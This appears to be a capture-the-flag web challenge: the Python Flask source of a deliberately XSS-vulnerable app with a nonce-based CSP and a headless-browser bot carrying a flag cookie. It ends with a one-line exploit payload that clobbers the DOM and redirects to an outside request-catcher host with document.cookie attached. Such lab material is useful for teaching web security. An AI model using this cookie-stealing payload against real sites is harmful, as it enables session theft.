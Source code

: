 #!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)
nonce = os.urandom(16).hex()

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome("/chromedriver", options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, name, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}#{name}"
    return read_url(url, cookie)

@app.after_request
def add_header(response):
    global nonce
    response.headers['Content-Security-Policy'] = f"default-src 'self'; img-src https://dreamhack.io; style-src 'self' 'unsafe-inline'; script-src 'self' 'nonce-{nonce}' 'strict-dynamic'"
    nonce = os.urandom(16).hex()
    return response

@app.route("/")
def index():
    return render_template("index.html", nonce=nonce)


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return render_template("vuln.html", nonce=nonce, param=param)


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html", nonce=nonce)
    elif request.method == "POST":
        param = request.form.get("param")
        name = request.form.get("name")
        if not check_xss(param, name, {"name": "flag", "value": FLAG.strip()}):
            return f'<script nonce={nonce}>alert("wrong??");history.go(-1);</script>'

        return f'<script nonce={nonce}>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text, nonce=nonce)


app.run(host="0.0.0.0", port=8000)






exploit : 
<script id='name' name='innerHTML'></script>#location.href='https://howsqws.request.dreamhack.games?cookie='+document.cookie;//

